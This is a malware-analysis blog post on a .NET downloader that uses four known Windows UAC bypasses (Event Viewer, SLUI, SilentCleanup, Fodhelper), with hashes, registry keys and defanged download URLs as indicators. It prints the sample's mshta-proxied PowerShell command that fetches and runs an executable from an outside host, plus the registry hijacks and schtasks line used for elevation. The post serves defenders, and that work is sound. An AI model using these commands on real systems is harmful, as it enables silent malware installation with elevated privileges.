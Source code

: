 ```yaml
---
layout: post
title: "UAC Bypass"
date: 2022-06-29 01:20:00 -0000
categories: UACbypass
---
```


## Introduction

In this post, I highlight old UAC bypasss techniques that are still in use. Although the bypass techniques implements in the analyzed sample are older and known, attempts are still being made to exploit them. As a result, defenders should be made aware of these on-going threats. 

I ran across this simple .NET downloader I'm naming *Adan Downloader* based on it's project path. The malware implements UAC bypass techniques in order to execute a Powershell download command proxied through mshta.exe (https://attack.mitre.org/techniques/T1218/005/).

The UAC bypass techniques implemented are (https://attack.mitre.org/techniques/T1548/002/):
* UAC Bypass via Event Viewer
* UAC Bypass via Slui
* UAC Bypass via SilentCleanup Scheduled Task
* UAC Bypass via Fodhelper

### Sample Metadata
<table>
    <thead>
        <tr>
            <th colspan=2>Adan Downloader</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Filename</td>
            <td>Stub.exe</td>
        </tr>
        <tr>
            <td>File Type</td>
            <td>.NET Binary</td>
        </tr>
        <tr>
            <td>MD5</td>
            <td>47E16AF98E41C83EB2F07A2D29CA8AF9</td>
        </tr>
        <tr>
            <td>SHA1</td>
            <td>4F5161BA956ECB4A453893EB3FC34C1313C6C701</td>
        </tr>
        <tr>
            <td>SHA256</td>
            <td>72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</td>
        </tr>
        <tr>
            <td>PDB</td>
            <td>C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb</td>
        </tr>
        <tr>
            <td>VT</td>
            <td> 
                <a href="https://www.virustotal.com/gui/file/72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534/relations)">72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</a>
            </td>
        </tr>
    </tbody>
</table>

### Analysis:

This downloader attempts to bypass User Account Control (UAC) to download unwanted files to a system. Upon execution, it conducts the following activity:
 
Creates a payload objects that contains the URLS and command line arguments for the downloaded file:
```
hxxp://source1.kapetownlink[.]com/installer.exe - Args: /qn CAMPAIGN="1640"
hxxps://setup.maskvpn[.]cc/g.asp?id=151 - Args: /silent /subid=603
```
    
For each payload URL, it constructs the following command to download additional files from the download URL to **%ProgramData%\<random_string>.exe**.

<b>mshta command</b>
```powershell
@"mshta vbscript:(CreateObject(""Wscript.Shell"")).Run(
""cmd /c powershell -Command """"(New-Object System.Net.WebClient).
DownloadFile('hxxp://source1.kapetownlink[.]com/installer.exe', 
(Join-Path -Path $env:ProgramData -ChildPath '5OTP8CZoq3MomB2GxUYrHB8U.exe'))"""" 
& C:\ProgramData\5OTP8CZoq3MomB2GxUYrHB8U.exe /qn CAMPAIGN=""""1640"""""",0)
(window.close)"
```

The command proxies Powershell execution through the mshta utility. This utility normally executes Microsoft HTML Applications (HTA) files. The utility is known as a living off the land binary (LOLBIN) since it's native to the Windows OS. It's a signed tool that can be used to bypass a system's security measures.

After constructing the command, the downloader executes a function named *UACBypass.AutoBypass()*. The function starts by obtaining the Windows product name. Depending on the name, the downloader utilizes old techniques to bypass UAC security measures.

### UAC Bypass Techniques

#### Windows 7: UAC Bypass via Event Viewer
    
If the product name starts with "Windows 7", the downloader abuses eventvwr.exe by hijacking the `HKCR\mscfile\shell\open\command` registry key to bypass UAC.

The downloader creates the registry key `HKCU\Software\Classes\mscfile\shell\open\command` and then sets the command value to the mshta command. Eventvwr is then started.

The technique works in part because of the relationship between the HKEY_CLASSES_ROOT (HKCR) and HKEY_CURRENT_USER (HKCU) registry keys. When `HKCU\Software\Classes\mscfile\shell\open\command` is created, a entry is also created in `HKCR\mscfile\shell\open\command`. The newly-created entry overwrites the mmc.exe entry that is normally there.
 
When eventvwr.exe is started, it reads `HKCR\mscfile\shell\open\command` to launce mmc.exe, however, since the HKCR key has been hijacked via the HKCU key, the mshta command is executed.

#### Windows 8: UAC Bypass via SLUI

If the product name starts with "Windows 8", UAC bypass is attempted by hijacking the `HKCR\Software\Classes\exefile\shell\open\command` registry key. 

The key `HKCU\Software\Classes\exefile\shell\open\command\` is created and the command is set to the mshta command. As explained previously, a entry is also created in the corresponding HKCR `\Software\Classes\exefile\shell\open\command` key. An additional value DelegateExecute is also created but the value is empty.

Slui.exe, an auto-elevated binary, is then executed with elevated privileges and executes the mshta command. 

#### Other OS: UAC Bypass via SilentCleanup Scheduled Task

When the OS is determined to be other than Windows 7/8, the downloader reads the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin`.

This key contains a UAC Group Policy setting that indicates whether a user is prompted for consent to continue with an operation. 

The malware checks for a value of 2. The explanation for this value is [here](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4).

If the key is set to 2, the downloader creates the key `HKCU\Environment\windir` and sets it value to the download command with "CleanReg &&" appended to the end. The malware then proceeds to start the *SilentCleanup* scheduled task.

*SilentCleanup* is native to Windows and is used to launch a silent auto disk cleanup when the system is running low on disk space.

The user's environment variables are stored in the `HKCU\Environment\` registry key. The malware adds the mshta command as the environment variable **windir**. As a result, when the *SilentCleanup* task is executed, the mshta command is executed.

#### UAC Bypass via Fodhelper

The final UAC bypass technique implemented by the downloader involves *fodhelper*. *Fodhelper.exe* is used by Windows to manage optional features. During execution, it looks for the registry keys:
    `HKCU\Software\Classes\ms-settings` however, it doesn't normally exist by default.

The downloader creates the key `HKCU\Software\Classes\ms-settings\shell\open\command` and sets the value to the mshta command. As with the previous command, DelegateExecute is created but the value is empty.

*Fodhelper.exe* is then executed.

#### Cleanup Activity

The downloader cleans up after itself by deleting the UAC Bypass registry key it created. Then it deletes itself with the command:
    `cmd.exe /C choice /C Y /N /D Y /T 1 & Del <filename>`.

### IOCs

<b>Adan Downloader Hashes</b>
```
72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
```

<b>Project Path</b>

```
C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb
```

<b>UAC Bypass Registry Keys</b>
```
Fodhelper, HKCR|HKCU\Software\Classes\ms-settings\shell\open\command
SLUI, HKCU\Software\Classes\exefile\shell\open\command
Eventvwr, HKCU\Software\Classes\mscfile\shell\open\command
```

<b>SilentCleanup UAC Bypass Scheduled Task</b>
```
schtasks.exe /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

<b>Download URLs</b>

```
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
    hxxps://source1.boys4dayz[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
    hxxps://footerquotes.b-cdn[.]net/fq.exe

72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
    hxxp://source1.kapetownlink[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
```